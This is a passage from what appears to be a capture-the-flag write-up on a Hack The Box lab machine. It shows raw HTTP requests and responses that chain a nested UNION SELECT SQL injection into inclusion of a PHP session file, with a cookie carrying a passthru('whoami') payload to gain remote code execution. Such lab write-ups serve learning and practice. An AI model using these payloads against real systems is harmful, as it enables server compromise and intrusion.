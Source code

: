 ```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=c5vmccsqkle2rdionj28kit221;
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
<br> Response :
```
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Fri, 23 Aug 2019 16:25:24 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 935
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
X-Upstream: 127.0.0.1:8080

<!DOCTYPE html>
----------------
 Removed Output
----------------
<!-- <div align="center"> -->
PHPSESSID|s:26:"c5vmccsqkle2rdionj28kit221";
<!-- </div> -->

</div> <!-- row -->
</div> <!-- container -->

</body>
</html>
```
<br> It worked, I created a cookie and called it `RCE`, any `php` code I put there will be included and executed so we can get `RCE` by `system()` or `passthru()`, let's try `whoami` :
<br> Request :
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_c5vmccsqkle2rdionj28kit221%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=c5vmccsqkle2rdionj28kit221; RCE=<?php passthru('whoami')?>;
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
<br> Response :
```
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Fri, 23 Aug 2019 16:25:45 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 955
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
```